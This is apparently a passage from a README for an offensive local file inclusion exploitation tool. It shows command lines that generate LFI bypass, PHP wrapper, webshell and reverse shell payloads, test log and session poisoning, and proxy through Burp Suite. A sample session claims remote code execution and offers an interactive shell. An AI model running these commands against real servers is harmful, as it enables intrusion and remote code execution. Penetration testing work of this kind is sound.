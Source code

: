 ### Generate Payloads (Built-In!)
```bash
# LFI bypass payloads
python3 ghostlfi.py -u http://target.com/page.php -p file --generate lfi

# PHP wrapper payloads
python3 ghostlfi.py -u http://target.com/page.php -p file --generate wrappers

# Webshells
python3 ghostlfi.py -u http://target.com/page.php -p file --generate shells

# Reverse shells
python3 ghostlfi.py -u http://target.com/page.php -p file --generate revshell
```

### Test Specific Techniques
```bash
# Test LFI bypasses
python3 ghostlfi.py -u http://target.com/page.php -p file --test-bypass

# Test log poisoning
python3 ghostlfi.py -u http://target.com/page.php -p file --test-log-poison

# Test session poisoning
python3 ghostlfi.py -u http://target.com/page.php -p file --test-session-poison
```

### With Burp Suite
```bash
python3 ghostlfi.py -u http://target.com/page.php -p file --auto --proxy http://127.0.0.1:8080
```

---

## 💻 Example Session

```bash
$ python3 ghostlfi.py -u http://target.com/page.php -p file --auto

   ██████╗ ██╗  ██╗ ██████╗ ███████╗████████╗██╗     ███████╗██╗
  ██╔════╝ ██║  ██║██╔═══██╗██╔════╝╚══██╔══╝██║     ██╔════╝██║
  ██║  ███╗███████║██║   ██║███████╗   ██║   ██║     █████╗  ██║
  ██║   ██║██╔══██║██║   ██║╚════██║   ██║   ██║     ██╔══╝  ██║
  ╚██████╔╝██║  ██║╚██████╔╝███████║   ██║   ███████╗██║     ██║
   ╚═════╝ ╚═╝  ╚═╝ ╚═════╝ ╚══════╝   ╚═╝   ╚══════╝╚═╝     ╚═╝

╔════════════════════════════════════════════════════════════════════╗
║          Local File Inclusion Exploitation Framework             ║
║                    Ghost Ops Security                              ║
╚════════════════════════════════════════════════════════════════════╝

[PHASE 1] PHP Configuration Check
✓ allow_url_include = On

[PHASE 2] LFI Vulnerability Test
✓ LFI vulnerability confirmed!

[PHASE 3.2] Testing data:// Wrapper
✓ data:// wrapper (base64) RCE successful!

[SUCCESS] RCE Achieved!

[?] What would you like to do?
  1) Interactive shell
```